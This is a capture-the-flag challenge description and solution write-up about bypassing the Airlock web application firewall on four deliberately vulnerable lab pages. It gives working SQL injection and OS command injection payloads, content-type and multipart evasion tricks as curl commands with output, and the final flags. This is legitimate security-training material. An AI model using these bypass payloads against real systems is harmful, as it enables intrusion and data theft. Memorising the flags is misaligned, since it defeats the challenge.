 # Airlock WAF

## Task

This challenge is sponsored by Ergon, the vendor of Airlock Secure Access hub.

This challenge consists of 4 vulnerable web sites. The sites are accessible by the URLs:

- Challenge 1: /challenge1/start.php
- Challenge 2: /challenge2/<UUID2>.php
- Challenge 3: /challenge3/<UUID3>.php
- Challenge 4: /challenge4/<UUID4>.php

By solving challenge1 you will get UUID2, by solving challenge2 you will get UUID3 and so on.

Submit the flag to prove that you solved all 4 challenges. The flag is the UUID you discover in the last challenge (challenge 4).

All 4 web sites have a well-documented web security vulnerability. The Web Application Firewall Airlock Gateway is deployed in front of the web server to prevent exploitation of the vulnerabilities. For all challenges there is an explicit bug implemented into the WAF configuration.

If you need a hint, please ask Reto. Send him an e-mail to reto.ischi@airlock.com.


### Challenge 1/4: Currency Converter

The application uses a MySQL database to store the conversion rates and calculate the result. The currency field is vulnerable to a SQL injection attack.

Vulnerable SQL statement:
```
$sql = "SELECT ROUND(? * value, 2) AS res FROM currencies WHERE name = '$convert_to'";
```
A table secrets contains the UUID to the next challenge /challenge2/<UUID>.php

Assume the attacker can use an UNION SQL injection attack to read the values from the secrets table.

Exploit:
```
challenge1/start.php?amount=50&currency=%27+union+select+*+from+secrets+%23
```

Unfortunately for the hacker, Airlock WAF blocks the parameter currency because it looks like SQL injection. Can you modify the parameter to bypass the WAF?

Hint: Whitespace character

We introduced a bug into the SQL rules of Airlock WAF for this challenge. Note that a good WAF should block any hacker evasion technique.

### Challenge 2/4: User Disk Quota Checker

The page displays the used disk quota for a specific user. The user can be specified with the parameter user. Example:
```
/challenge2/<UUID>.php?user=thomas
```

The parameter is vulnerable to an OS command injection vulnerability. The application uses the following bash command to calculate the disk usage:
```
du -sh '/home/$user' | cut -f1
du -sh '/home/$user' | cut -f1
```

Read out the UUID for the next challenge from the file /tmp/secret.txt using the OS command injection vulnerability to be able to access the next challenge. An example exploit would be:

```
/challenge2/<UUID>.php?user=sdkfj%27%20%3B%20cat%20%2Ftmp%2Fsecret.txt%20%23%27
/challenge2/<UUID>.php?user=sdkfj%27%20%3B%20cat%20%2Ftmp%2Fsecret.txt%20%23%27
```
Again, the WAF blocks this attack. Can you modify the exploit string to bypass the WAF?
Hint: Operator

### Challenge 3/4: Account Transfer 1/2

Can you transfer money to the target account 99-999999-999 to solve this challenge?

The WAF administrator restricted the parameter values of account_to.

Hint 1: A good WAF must be able to recognize the format of a web request in the same way as the back-end application. If this is not possible the request must be normalized or blocked. Otherwise an attacker can bypass all filter rules.

How does a web server detect that the request is encoded as HTML form data? Try to modify the format indicator so that the back-end application recognizes the request body as HTML form data but the WAF does not.

Hint 2: tamper suffix

### Challenge 4/4: Account Transfer 2/2

Again, send money to 99-999999-999 to solve the last challenge step.

A good WAF must be able to understand/parse all common web formats like HTML form data or JSON to detect attack payloads in data fields. WAF filter rules are useless if corresponding parsers are not available or enabled.

Hint: multipart

## Solution

### Challenge 1

Using a \n\r (%0A%0D urlencoded) to bypass the check:
```
$ curl "https://1ea162d4-e49d-4390-a182-aa40070e6e96.idocker.vuln.land/challenge1/start.php?amount=2&currency=%27+%0A%0Dunion+select+*+from+secrets+%23"
[...]
Result: 12076336-a10a-11eb-bcbc-0242ac130002</p>
```

### Challenge 2

Use a Pipe symbol instead of the Semicolon:
```
$ curl "https://e8d14112-dc08-4e87-9f8c-f573764d91d8.idocker.vuln.land/challenge2/12076336-a10a-11eb-bcbc-0242ac130002.php?user=sdkfj%27%20%7C%20cat%20%2Ftmp%2Fsecret.txt%20%23%27"
[...]
User sdkfj' | cat /tmp/secret.txt #' used '21d3038f-a90a-49bc-b2f4-f300adef741e
' of his 1GB disk quota.
```


### Challenge 3

Use uppercase "X" in the content type header:
```
$ curl 'https://5b6bfd70-6040-4613-8895-c16a06c327c8.idocker.vuln.land/challenge3/21d3038f-a90a-49bc-b2f4-f300adef741e.php' -H 'Content-Type: application/X-www-form-urlencoded' --data-raw 'amount=3&account_from=11-111111-111&account_to=99-999999-999'
[...]
3 USD transferred from 11-111111-111 to 99-999999-999<p><b><font color="red">You made it. Flag: fa2f20aa-1e5a-4a21-ba75-ff31758eee55</font><b>
```

### Challenge 4

Use Multipart Request instead of normal form data:
```
$ curl 'https://5b6bfd70-6040-4613-8895-c16a06c327c8.idocker.vuln.land/challenge4/fa2f20aa-1e5a-4a21-ba75-ff31758eee55.php' -F amount=1 -F account_from=11-111111-111 -F account_to=99-999999-999
[...]
1 USD transferred from 11-111111-111 to 99-999999-999<p><b><font color="red">You made it. Flag: b8cc53a0-19ed-4d5c-aa7e-8b3e135559fa</font><img src="./rock.jpg"><b>

```
